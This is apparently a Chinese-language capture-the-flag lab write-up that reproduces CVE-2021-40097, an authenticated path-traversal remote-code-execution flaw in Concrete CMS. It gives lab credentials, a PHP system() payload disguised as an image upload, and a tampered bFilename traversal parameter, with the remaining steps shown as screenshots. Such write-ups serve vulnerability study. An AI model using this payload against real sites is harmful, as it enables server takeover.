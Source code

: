 ```yaml
---
title: CVE-2021-40097【RCE】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'RCE'
---
```


## 1. 漏洞介绍

An issue was discovered in Concrete CMS through 8.5.5. Authenticated path traversal leads to to remote code execution via uploaded PHP code, related to the bFilename parameter.

## 2. 漏洞分析

[HackerOne](https://hackerone.com/reports/1102067)

[CVE-2021-40097 concrete cms rce - 先知社区](https://xz.aliyun.com/t/11248)

## 3. 漏洞复现

登录，admin/123456【建议用火狐】,上传个图片，记下路径。   

图片内容： `<?php system("cat /flag");?>`  

接着根据漏洞分析进行如下操作

![0.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202311250007245.png)

![0-1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202311250008212.png)

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202311250008239.png)

抓包修改 `bFilename=../../../../application/files/9317/0084/1521/cat_flag.jpg`

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202311250008738.png)

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202311250009023.png)
